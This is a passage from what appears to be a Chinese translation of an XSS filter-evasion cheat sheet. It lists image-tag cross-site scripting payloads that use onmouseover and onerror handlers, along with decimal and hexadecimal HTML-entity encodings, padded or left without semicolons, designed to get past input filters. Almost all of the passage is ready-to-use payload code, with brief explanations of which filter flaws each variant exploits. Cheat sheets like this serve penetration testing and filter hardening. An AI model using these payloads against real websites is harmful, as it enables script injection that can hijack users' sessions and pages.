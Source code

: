 ```
<IMG SRC= onmouseover="alert('xxs')">
```

* * *

### 默认SRC属性通过完全不设置它

```
<IMG onmouseover="alert('xxs')">
```

* * *

### 通过error事件触发alert

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

* * *

### 十进制html编码引用

所有在使用javascript指令的xss示例将无法工作在 Firefox 或 Netscape 8.1+，因为它们使用了 Gecko 渲染引擎。使用 XSS [Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。

```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
```

* * *

### 结尾没有分号的十进制html编码引用

他是经常有用的在绕过寻找"&#XX;"格式的xss过滤，因为大多数人不知道最多允许7位字符的编码限制。这也是有用的对那些对字符串解码像$tmp_string =~ s/._\&#(\d+);._/$1/; ,错误的认为一个html编码需要用;去结束。（我是无意中发现）

```
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
```

* * *

### 结尾没有分号的十六进制html编码引用

这也是一种实用的xss攻击针对上文的$tmp_string =~ s/._\&#(\d+);._/$1/; ，错误的认为数字编码跟随在#后面（十六进制htnl编码并非如此），。使用 XSS [Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。

```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

* * *
